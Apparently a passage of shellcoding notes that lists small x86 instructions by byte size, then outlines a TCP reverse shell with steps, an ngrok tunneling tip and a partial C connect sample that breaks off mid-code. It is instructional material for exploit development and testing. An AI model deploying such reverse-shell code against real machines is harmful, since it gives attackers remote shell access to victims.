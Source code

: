 ```
push rax
pop rax

inc eax
dec eax

mov al, 0xff
add al, 0xff
sub al, 0xff

xor al, al
or al, al
and al, al

inc al
dec al
shl al
shr al
```

Two bytes

```as
syscall

mov eax, esp

xor eax, eax
or eax, eax
and eax, eax

shl eax
shr eax
```

## Reverse shell over TCP socket

1. Create a new socket
2. Copy the file descriptor of the new socket
3. Connect to your server
4. Duplicate the file descriptors for input, output and error with the new one.
5. Exec a shell
6. Exploit

This is a sample of the C code that does the same thing.
It can be used for testing or as guide using gdb.

You can use a tool like [ngrok](https://ngrok.com/) to make a public tcp tunnel to your localhost.

```c title="socket.c"
#include <arpa/inet.h>
#include <stdio.h>
#include <sys/socket.h>
#include <unistd.h>

int main()
{
    struct sockaddr_in serv_addr;
    int sock = 0;
    serv_addr.sin_addr.s_addr = inet_addr("127.0.0.1");
    serv_addr.sin_family = AF_INET;
    serv_addr.sin_port = htons(1337);
    sock = socket(AF_INET, SOCK_STREAM, 0);
    if (connect(sock, (struct sockaddr *)&serv_addr, sizeof(serv_addr)) < 0)
    {
        puts("Cannot connect!");
```